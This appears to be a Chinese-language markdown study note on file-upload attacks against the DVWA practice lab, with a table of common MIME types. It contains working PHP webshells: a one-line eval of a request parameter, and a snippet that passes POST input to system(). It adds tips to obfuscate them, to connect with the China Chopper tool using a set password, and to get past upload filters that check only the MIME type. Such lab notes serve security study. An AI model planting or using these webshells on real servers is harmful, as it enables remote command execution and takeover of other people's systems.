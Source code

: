 

获取文件上传路径

#### 常见mime类型

```
常见的MIME类型
　　超文本标记语言文本 .html,.html text/html 
　　普通文本 .txt text/plain 
　　RTF文本 .rtf application/rtf 
　　GIF图形 .gif image/gif 
　　JPEG图形 .jpeg,.jpg image/jpeg 
　　au声音文件 .au audio/basic 
　　MIDI音乐文件 mid,.midi audio/midi,audio/x-midi 
　　RealAudio音乐文件 .ra, .ram audio/x-pn-realaudio 
　　MPEG文件 .mpg,.mpeg video/mpeg 
　　AVI文件 .avi video/x-msvideo 
　　GZIP文件 .gz application/x-gzip 
　　TAR文件 .tar application/x-tar
```

一句话木马

```php
<?php
    @eval($_REQUEST["shell"]);
?>
#反弹shell
```

```
加密混淆
未加密代码：
<?php @eval($POST[action]); 
     @$flag = $_GET['flag'];    
     if ($flag=='a') {
     	@$action = $_POST['action'];
     	system($action);
     }
?>

加密后使用：用菜刀连接，密码：action
```



### DVWA

#### Low、

直接上传然后连接菜刀就对了

![image-20201117173253690](../..img/image-20201117173253690.png)





#### media

因为这里过滤的是文件的上传类型，而不是文件的后缀名

